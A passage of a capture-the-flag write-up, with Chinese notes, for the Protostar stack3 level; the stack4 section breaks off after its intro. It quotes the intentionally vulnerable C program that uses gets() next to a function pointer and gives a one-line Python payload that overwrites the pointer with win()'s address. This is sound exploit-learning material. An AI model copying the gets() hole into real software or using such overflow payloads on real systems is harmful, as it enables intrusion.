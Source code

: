 
## Stack3

### About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

**Hints**

- both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

有个**函数指针**，通过**gets**将**fp的内容**覆盖成**win函数的地址**(前提是没有开`PIE`)。

```shell
python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
```

## Stack4

### About

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

